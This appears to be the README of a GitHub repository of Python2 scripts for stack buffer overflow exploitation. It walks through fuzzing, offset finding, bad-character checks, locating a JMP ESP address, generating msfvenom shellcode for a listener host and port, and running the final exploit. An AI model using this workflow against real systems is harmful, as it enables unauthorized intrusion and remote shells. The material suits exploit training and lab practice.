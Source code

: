 # bof_scripts
Python2 scripts for Stack Buffer Overflows

## Dependencies
1. msfvenom
2. python2
3. pattern_offset.rb
4. Immunity Debugger with Mona,py

## Usage

1. `git clone https://github.com/thirdbyte/bof_scripts`
2. `cd bof_scripts`
3. `chmod +x *`

### Initialization

1. Set `RHOST` and `RPORT` in `config.py` according to the target

### 1_fuzz.py

1. Modify `config.py` to have a working `connect` function
2. `./1_fuzz.py`
3. Update `BUFT` in `config.py` to be slightly larger than the crashed bytes.

### 2_find_offset.py

1. `./2_find_offset.py`
2. Copy the `EIP` address and find the `OFFSET` with `./pattern_offset.rb -q EIP_ADDRESS`

### 3_confirm_offset.py

1. Modify `OFFSET` of `config.py` to have the value found in the previous step
2. `./3_confirm_offset.py`
3. `ESP` should point to `CCCC`. If not, keep modifying `NO_B`, `NO_C` and `NO_Z` in `config.py`.

### 4_badchars.py

1. Modify `config.py` and make sure that initially, `BADCHARS=[0x00,0x0A]`
2. `./4_badchars.py`
3. Copy `bad.bin` generated to target machine
4. In debugger, right click on `ESP` and click `Follow in Dump`.
4. In debugger, execute `!mona compare -a esp -f c:\path\to\bad.bin`
5. Again modify `config.py` to add additional `BADCHARS`

### 5_jmp_esp.py

1. Find a suitable `\xff\xe4` address
2. Modify `JMPESP` in `config.py`
3. `./5_jmp_esp.py`
4. Observe debugger for `INT 3` in disassembler

### 6_shellcode.sh

1. `/6_shellcode.sh '<BADCHARS>' <LHOST> <LPORT>` where `BADCHARS` must be in form of `\x00\x0A..`

### 7_exploit.py 

1. `./7_exploit.py`
